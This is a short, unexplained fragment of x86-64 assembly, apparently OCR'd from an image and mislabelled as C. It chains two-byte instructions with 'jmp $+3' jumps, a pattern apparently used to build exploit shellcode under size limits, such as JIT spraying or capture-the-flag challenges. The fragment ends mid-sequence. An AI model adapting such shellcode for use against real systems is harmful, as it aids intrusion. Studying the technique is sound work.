 ```c
xor eax, eax
jmp $+3

mov cl, 0x8
jmp $+3

add al, 0x01
jmp $+3

shl eax, cl 
jmp $+3

add al, 0x97
jmp $+3

shl eax, cl 
jmp $+3

add al, 0xb8
jmp $+3

shl eax, cl 
jmp $+3

add al, 0x50
jmp $+3

add ebx, eax
jmp $+3

push rax
push rax
jmp $+3

push rax
push rbx
jmp $+3

xchg rsp, rax
jmp $+3

add al, 0xc
jmp $+3

xor ecx, ecx
jmp $+3

not ecx
jmp $+3

xchg rsp, rax
jmp $+3

push rcx
nop
jmp $+3

xchg rsp, rax
jmp $+3

sub al, 0x4
jmp $+3

```